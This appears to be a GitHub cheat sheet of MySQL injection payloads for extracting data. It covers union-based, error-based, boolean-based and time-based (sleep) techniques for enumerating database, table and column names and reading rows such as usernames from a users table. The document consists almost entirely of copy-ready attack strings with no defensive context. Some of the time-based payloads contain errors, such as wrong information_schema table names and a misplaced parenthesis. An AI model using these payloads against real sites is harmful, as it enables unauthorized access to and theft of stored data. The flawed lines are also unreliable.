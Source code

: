# Exploitation and Data Exfileration

 # UNION BASED

Database Name
```
UNION SELECT 1,database(),3,4,5,6,7,8,9,10,11
```
Table Name
```
UNION SELECT 1,(SELECT table_name FROM information_schema.tables WHERE table_schema=database() limit 0,1),3,4,5,6,7,8,9,10,11
```

Column name
```
UNION SELECT 1,(SELECT column_name FROM information_schema.columns WHERE table_name='carts' limit 1,1),3,4,5,6,7,8,9,10,11

UNION SELECT 1,(SELECT column_name FROM information_schema.columns WHERE table_name='cedveladi' limit 1,1),3,4,5,6,7,8,9,10,11
```

# ERROR BASED

Database Name
```
extractvalue(rand(),concat(1,(database())))
```
Table Name
```
extractvalue(rand(),concat(1,(SELECT table_name FROM information_schema.tables WHERE table_schema=database() limit 1,1)))
```
Column Name 
```
extractvalue(rand(),concat(1,(SELECT column_name FROM information_schema.columns WHERE table_name='cedveladi' limit 1,1)))
```

# BOOLEAN BASED

Database Name size enumeration
```
AND (length(database())) = 15 --+
```

Database Name
```
AND SUBSTRING(database(),1,1)='b'
```

Table Name
```
AND SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 1,1),1,1)='c'
```
Column Name 
```
AND SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_name='cedvelinadi' LIMIT 1,1),1,1)='c'
```
Data
```
AND SUBSTRING((SELECT uname FROM users LIMIT 0,1),1,1)='t'
```
Speed up ....
![68747470733a2f2f7777772e61736369697461626c652e636f6d2f617363696966756c6c2e676966](https://github.com/azar-malikov/SQLi_cheatsheet/assets/103067933/5be75e82-2665-470f-9266-0983ae02ab31)

Database Name size enumeration
```
AND (length(database())) = 15 --+
```

Database Name
```
AND (ascii(substr((select database()),1,1))) > 110 --+
```

Table Name Size
```
AND (length((select table_name from information_schema.tables where table_schema=database() limit 0,1))) = 4 --+
```

Table Name
```
AND (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1) ,1,1))) > 108 --+
```

Column Name Size

```
AND (length((select column_name from information_schema.columns where table_name='cedvelinadi' limit 0,1))) = 4 --+
```

Column Name 
```
AND (ascii(substr((select column_name from information_schema.columns where table_name='cedvelinadi' limit 4,1) ,1,1))) > 114 --+
```
Data size
```
AND (length((select sutununadi from cedvelinadi limit 0,1))) = 6 --+
```
Data
```
AND (ascii(substr((select sutununadi from cedvelinadi limit 3,1) ,1,1))) > 114 --+
```


# TIME BASED
Database Name size enumeration
```
AND IF(length(database())=1,SLEEP(2),2)
```

Database Name
```
AND IF((SELECT database()) LIKE "",sleep(10),NULL)--
```

Table Name Size
```
 AND IF(length((select table_name from information_schema.tables where table_schema=database() LIMIT 0,1))=7,SLEEP(2),2)
```

Table Name
```
AND IF(((ascii(substr((SELECT table_name FROM information_schema.tables LIMIT 0,1),1,1)))) > 95,sleep(10),NULL)--
```

Column Name Size
```
AND IF(length((select table_name from information_schema.column WHERE table_name='cedvelinadi'),SLEEP(2),2) = 15 --+
```
Column Name
```
AND IF(((ascii(substr((SELECT column_name FROM information_schema.schema WHERE table_name='cedvelinadi' LIMIT 0,1),1,1)))) > 95,sleep(10),NULL)--
```

SPEED UP IN ASCII

Database Name

```
AND IF(((ascii(substr(Database(),1,1)))) > 95,sleep(10),NULL)--
```

Table Name 
```
AND IF(((ascii(substr((SELECT table_name FROM information_schema.tables LIMIT 0,1),1,1)))) > 95,sleep(10),NULL)--
```

Column Name 
```
AND IF(((ascii(substr((SELECT column_name FROM information_schema.columns LIMIT 0,1),1,1)))) > 95,sleep(10),NULL)--
```
Data size
```
AND (length((select sutununadi from cedvelinadi limit 0,1))) = 6 --+
```
Data
```
AND IF(((ascii(substr((select sutununadi from cedvelinadi limit 3,1),1,1)))) > 95,sleep(10),NULL)--
AND (ascii(substr((select sutununadi from cedvelinadi limit 3,1) ,1,1))) > 114 --+
```
